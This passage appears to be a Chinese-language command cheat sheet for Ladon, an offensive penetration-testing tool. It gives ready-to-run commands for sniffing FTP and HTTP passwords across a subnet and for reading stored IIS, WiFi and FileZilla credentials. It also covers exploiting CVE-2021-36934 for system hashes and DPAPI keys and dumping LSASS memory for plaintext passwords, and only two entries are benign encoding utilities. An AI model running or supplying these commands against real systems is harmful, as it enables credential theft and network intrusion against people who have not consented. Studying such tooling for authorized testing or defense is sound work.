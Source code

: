 ##### 073 Hex加密解密
```Bash
Ladon 123456 EnHex
Ladon 313233343536 DeHex
```

##### 074 Base64加密解密
```Bash
Ladon 123456 EnBase64
Ladon MTIzNDU2 DeBase64
Ladon str.txt DeBase64
```

### 网络嗅探

##### 075 Ftp密码嗅探(绑定本机IP，自动嗅探C段)
```Bash
Ladon FtpSniffer 192.168.1.5
```

##### 076 HTTP密码嗅探(绑定本机IP，自动嗅探C段)
```Bash
Ladon HTTPSniffer 192.168.1.5
```

##### 077 网络嗅探	
```Bash
Ladon Sniffer
```

### 密码读取

##### 078 读取IIS站点密码、网站路径
```Bash
Ladon IISpwd
```

##### 079 读取连接过的WIFI密码
```Bash
Ladon WifiPwd
```

##### 080 读取FileZilla FTP密码
```Bash
Ladon FileZillaPwd
```

##### 081 读取系统Hash、VPN密码、DPAPI-Key  10.9移除
```Bash
Ladon CVE-2021-36934  
```

##### 082 DumpLsass内存密码(mimikatz明文) 限9.1.1版本之前
```Bash
Ladon DumpLsass
```
